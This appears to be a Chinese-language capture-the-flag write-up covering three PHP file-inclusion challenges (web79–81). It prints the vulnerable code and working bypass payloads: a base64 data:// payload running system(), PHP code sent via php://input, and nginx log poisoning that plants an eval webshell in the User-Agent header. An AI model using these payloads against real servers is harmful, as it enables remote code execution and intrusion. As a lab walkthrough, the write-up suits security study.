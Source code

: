 **解题思路：用data协议读取flag.php文件**

data://伪协议数据流封装器，和php://相似都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的

```php
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```



#### web80

```php
<?php
    if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

**解题思路：用PHP://input绕过str_replace替换，从而去执行代码**

**php://input**可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。

```php
?file=PHP://input + POSTdata命令执行
	<?php system('cat fl0g.php');?>
```





#### web81

```php
<?php
    if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

**解题思路：包含nginx日志文件**

当我们访问网站时，服务器的日志中都会记录我们的行为，如果我们在UA头写入一句话木马的，就会被写入日志文件。
UA头写入 <?=eval($_GET['cmd']); ?>，然后传参?file=/var/log/nginx/access.log&cmd=cat /fl0g.php获取flag就可以了。

```php
?file=/var/log/nginx/access.log
   首先在Usage-Agent中加入一句话木马提交，然后包含nginx日志文件getshell 
```
